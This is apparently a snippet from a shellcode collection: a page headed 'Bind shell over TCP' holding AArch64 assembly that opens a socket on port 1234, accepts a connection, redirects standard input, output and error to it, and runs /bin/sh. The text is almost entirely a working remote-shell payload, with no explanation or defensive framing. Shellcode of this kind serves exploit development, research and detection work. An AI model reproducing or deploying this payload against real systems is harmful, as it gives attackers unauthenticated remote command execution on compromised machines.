 ### Bind shell over TCP

```arm
    .arch armv8-a

    .include "macro.inc"

    .equ PORT, 1234

    .global _start
    .text

_start:
    @ s = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
    mov     x8, SYS_socket
    mov     x2, IPPROTO_IP
    mov     x1, SOCK_STREAM
    mov     x0, AF_INET
    svc     0

    mov     w3, w0       @ w3 = s

    @ bind(s, &sa, sizeof(sa));  
    mov     x8, SYS_bind
    mov     x2, 16
    movl    w1, (((((PORT & 0xFF) << 8) | (PORT >> 8)) << 16) | AF_INET)
    str     x1, [sp, -16]!
    mov     x1, sp
    svc     0

    @ listen(s, 1);
    mov     x8, SYS_listen
    mov     x1, 1
    mov     w0, w3
    svc     0

    @ r = accept(s, 0, 0);
    mov     x8, SYS_accept
    mov     x2, xzr
    mov     x1, xzr
    mov     w0, w3
    svc     0

    mov     w3, w0

    @ dup3(s, STDERR_FILENO, 0);
    @ dup3(s, STDOUT_FILENO, 0);
    @ dup3(s, STDIN_FILENO,  0);
    mov     x8, SYS_dup3
    mov     x1, STDERR_FILENO + 1
c_dup:
    mov     w0, w3
    subs    x1, x1, 1
    svc     0
    bne     c_dup

    @ execve("/bin/sh", NULL, NULL);
    mov     x8, SYS_execve
    movq    x0, BINSH
    str     x0, [sp]
    mov     x0, sp
    svc     0
```
